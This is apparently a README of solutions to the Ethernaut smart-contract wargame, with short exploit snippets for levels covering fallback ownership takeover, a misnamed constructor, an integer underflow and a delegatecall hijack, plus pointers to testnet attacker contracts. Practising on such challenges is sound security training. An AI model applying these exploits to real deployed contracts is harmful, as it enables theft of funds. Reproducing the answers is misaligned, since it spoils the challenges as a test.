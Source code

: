 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```


## 3. Coin Flip

Compile [CoinFlipAttack.sol](./solutions/CoinFlipAttack.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Do not forget to specify the level `instance` address when deploying the attacker contract (constructor).  
Afterwards, just call the `callFlipWithCorrectGuess()` function 10 times.


## 4. Telephone

Compile [TelephoneProxy.sol](./solutions/TelephoneProxy.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `giveMeTelephoneOwnership(address _telephoneContract)` function with the level `instance` address as first argument.

## 5. Token

```
const balance = Number(await contract.balanceOf(player));
await contract.transfer(level /* can be any address except own */, balance + 1 /* create underflow in contract */);
```

## 6. Delegation

See [Delegatecall](https://solidity-by-example.org/delegatecall/).
```
await contract.sendTransaction({ data: web3.eth.abi.encodeFunctionSignature("pwn()") });
```

## 7. Force

```

```
